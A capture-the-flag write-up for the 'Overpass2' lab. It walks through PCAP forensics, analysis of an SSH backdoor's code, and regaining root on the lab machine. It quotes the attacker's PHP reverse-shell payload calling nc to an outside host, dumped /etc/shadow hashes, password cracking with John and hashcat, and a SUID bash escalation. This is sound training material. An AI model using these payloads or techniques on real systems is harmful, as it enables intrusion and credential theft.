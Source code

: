```
Target Name: Overpass2
```

```
Task 1: Forensics - Analyse the PCAP
```

```
Task 1.1: What was the URL of the page they used to upload a reverse shell? => /development/
```
1. To solve this let's download the pcap file and investigate the packets captured by the team.
2. On investigating a GET request we can see that a /development/ hosts an upload form where a file could be uploaded.
3. There is a POST request to /development/upload.php where we can see that a shell file was uploaded with the name payload.php.

```
Task 1.2: What payload did the attacker use to gain access? => <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
1. So it is easy to check the POST request going to /development/upload.php.
2. Right-click on the POST request log and select follow => HTTP Stream.
3. The payload is mentioned there as value to the *Payload.php*

```
Task 1.3: What password did the attacker use to privesc? => whenevernoteartinstant
```
1. Further investigating the TCP packets by using follow => TCP Stream we come to know that attacker executed a *ls -al* command and found a file with name *.overpass* in `/var/www/html/development/uploads`
2. Next the attacker accessed the file using the cat command and the file carried the password for the user James.
3. The password was *whenevernoteartinstant*
4. Next using the password the attacker executed a command *sudo -l*

```
Task 1.4: How did the attacker establish persistence? => https://github.com/NinjaJc01/ssh-backdoor
```
1. Still following the TCP packets we came across that user executed a cat command on */etc/shadow*
2. The attacker found the following users' passwords for which could be Brute Forced.
```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
``` 
3. Next the attacker executed *git clone https://github.com/NinjaJc01/ssh-backdoor* to establish persistence

```
Task 1.5: Using the *fasttrack* wordlist, how many of the system passwords were crackable? =>
```

1. To do this let's download the *fasttrack* wordlist from `https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt`
2. Next we will save the users hash found in `/etc/shadow` file and use John the ripper to get the plain text password of the users.
3. The passwords were easy to crack and we could crack *4* out of *5* user's passwords.
```
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
4g 0:00:00:00 DONE (2021-12-21 00:12) 4.444g/s 246.6p/s 1128c/s 1128C/s admin..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```
Task 2:  Research - Analyse the code
```

```
Task 2.1: What's the default hash for the backdoor? => bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```
1. check the main.go file from the ss-backdoor git repo we downloaded earlier the hash is mentioned in it.

```
Task 2.2: What's the hardcoded salt for the backdoor? => 1c362db832f3f864c8c2fe05f2002a05
```
1. In the ssh-backdoor repo the main.go file holds the salt, it can be found defined in *passwordHandler* function.

```
Task 2.3: What was the hash that the attacker used? - go back to the PCAP for this! => 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
1. Repoen the pcapng file with wireshark and lets start looking at the TCP Stream again.
2. The attacker has cloned the ssh-backdoor repo and generated a new ssh key pair using *ssh-gen* command.
3. Next the attacker has provided executing permission to the backdoor script using chmod +x backdoor.
4. Now the attacker execute's `./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed` to get a persistance connection on port 2222 via ssh.

```
Task 2.4: Crack the hash using RockYou and a cracking tool of your choice. What's the password? => november16
```
1. For this we will be using hachcat but first, we need to understand the type of hash we are dealing with.
2. So going back to the main.go file we can see that a SHA512 hash is generated using a salt value *Check below code the hashPassword function returns a hash value that is sha512*
```
func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
```
3. So let's navigate to `https://hashcat.net/wiki/doku.php?id=example_hashes` and check what mode we can use to crack the sha512 hash that has a salt value as well.
4. So we conclude we will be using mode 1710 as it best fits our requirments `1710 	sha512($pass.$salt) 	e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd:6352283260`
5. let's save the hash and salt in a file called hash and pass it to the hashcat file to crat it.
6. The formate of hash and salt should be hash:salt in the file the *:* being the seprator between both the vaules, following being the final formate
`6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05`
7. Fire this command and wait for hashcat to crack the hash `hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt --force`
8. Hashcat gives us the password `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16` where `november16` being the password. So now we have the password of the attacker.

```
Task 3: Attack - Get back in!
```

```
Task 3.1: The attacker defaced the website. What message did they leave as a heading? => H4ck3d by CooctusClan
```
1. Deploy the machine and navigate the website.
2. We see a message saying *H4ck3d by CooctusClan*

```
Task 3.2: Using the information you've found previously, hack your way back in!
```
1. So we know the password used by the attacker *november16* we know the username *James* and we know the attacker is using port *2222* as SSH service as the ssh-backdoor tool uses that port.
2. So let's connect to the server via ssh -p 2222 james@<ip address> pass the password and we are in.

```
Task 3.3: What's the user flag? => *******
```
1. As we have an ssh connection to the server let's navigate to */home/james* and execute ls -al
2. We have the user.txt file in the directory let's cat it and get the flag.

```
Task 3.4: What's the root flag? => *******
```
1. We currently are not a root user we will need to enumerate more to escalate to root privileges.
2. Notice under */home/james* there is a file named `.suid_bash` it is shown that it is owned by *root* and we can execute it as we have the right permissions to do so `-rwsr-sr-x`
3. On further investigating the binary we come to know that it is a file that can run bash as *root* user it is in general a suid misconfiguration where a normal user can execute the binary with root privileges in our case it gives us access to bash as the root user.
4. So if you just execute the `.suid_bash` file you will have a bash shell but not as a root user.
5. The GTFO bins have a great way to exploit it and escalate our shell to *root* check `https://gtfobins.github.io/gtfobins/bash/` all we need to do is execute the `suid_bash` with a -p and get a root shell.
6. So let's execute ./suid_bash -p and bingo we have root navigate to /root and cat root.txt to grab the root flag and complete the challange.
